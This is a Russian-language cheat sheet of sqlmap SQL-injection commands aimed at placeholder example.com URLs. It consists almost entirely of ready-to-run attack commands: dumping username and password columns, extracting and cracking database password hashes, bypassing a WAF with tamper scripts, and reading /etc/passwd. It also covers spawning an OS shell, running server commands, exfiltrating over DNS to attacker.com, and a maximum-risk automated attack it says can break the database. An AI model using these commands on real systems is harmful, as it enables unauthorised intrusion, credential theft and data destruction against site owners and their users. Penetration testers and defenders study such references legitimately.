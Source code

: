 Определение базы данных:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dbs

Определение таблиц в базе:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db --tables

Определение колонок в таблице:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table --columns

Извлечение данных из таблицы:
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" -D target_db -T target_table -C username,password --dump

_______________________________________________________________________________________________________________________________________

GET-параметры
> ```bash
> sqlmap -u "http://example.com/index.php?id=1"

POST-параметры
> ```bash
> sqlmap -u "http://example.com/login.php" --data="username=admin&password=123"

Cookie-параметры
> ```bash
> sqlmap -u "http://example.com/profile.php" --cookie="PHPSESSID=abcd1234"

HTTP-заголовки (User-Agent, Referer, X-Forwarded-For и т. д.)
> ```bash
> sqlmap -u "http://example.com/" --headers="User-Agent: evil_payload"

_______________________________________________________________________________________________________________________________________

Определение типа инъекции
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=U
Где U – Union-based, можно заменить на B (Boolean-based), T (Time-based) и т. д.

Обход WAF (Web Application Firewall)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --tamper=space2comment
Можно использовать другие tamper-скрипты, например charencode, randomcase и т. д.

Определение уровня привилегий
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --privileges

Получение учетных данных пользователей базы
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --users



Получение хешей паролей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --passwords

Попытка дешифровки хешей
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --crack

Автоматическое определение всех уязвимых параметров
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --forms --crawl=3
Ищет SQL-инъекции во всех найденных формах на сайте

Поиск файлов на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --file-read="/etc/passwd"

Загрузка шелла на сервер
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-shell

Запуск команд на сервере
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --os-cmd="whoami"

Обход защиты через Time-based SQL Injection
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --technique=T --time-sec=5

Атака через DNS (Blind SQL Injection)
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --dns-domain=attacker.com

Запуск мощной автоматической атаки
> ```bash
> sqlmap -u "http://example.com/index.php?id=1" --level=5 --risk=3 --batch
--level=5 – увеличивает глубину проверки
--risk=3 – максимальный уровень риска (может сломать базу)
--batch – отключает вопросы (запускает атаку автоматически)
